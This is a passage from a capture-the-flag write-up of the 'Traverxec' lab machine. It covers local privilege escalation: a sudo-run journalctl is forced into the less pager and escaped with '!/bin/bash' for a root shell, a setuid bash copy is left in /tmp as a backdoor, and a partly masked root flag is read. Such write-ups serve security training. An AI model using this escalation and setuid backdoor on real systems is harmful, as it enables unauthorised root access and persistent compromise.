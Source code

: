 ## david → root

---

In the bin directory there is a script:

```bash
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

The script opens journalctl to the unostromo service as root. I can maybe insert code into the journalctl file which will then gets executed as root. Normally you could just use `sudo journalctl !/bin/sh` to start a root shell. 

I found a trick for this in a write up. If the terminal window is too small, the output will be open in less, which will still be opened as root.

So shrunk the window and ran the command `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`:

![Untitled](/assets/images/2022-05-15-traverxec/Untitled1.png)

You can now escape less using `!/bin/bash`:

```bash
~
!/bin/bash
root@traverxec:/home/david/bin# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david/bin# cp /bin/bash /tmp/rootbash
root@traverxec:/home/david/bin# chmod +s /tmp/rootbash
```

There is the root shell. Note: I just created rootbash in case the shell crashes.

### Root Flag

---

It's time to get the root flag:

```bash
root@traverxec:/home/david/bin# cat /root/root.txt
9a**************************d906
```

# Conclusions

---

The box was fun but the trick were you have to shrink the windows is too much. I liked everything except this. The box is good and I learned some new stuff but that trick made everything worse.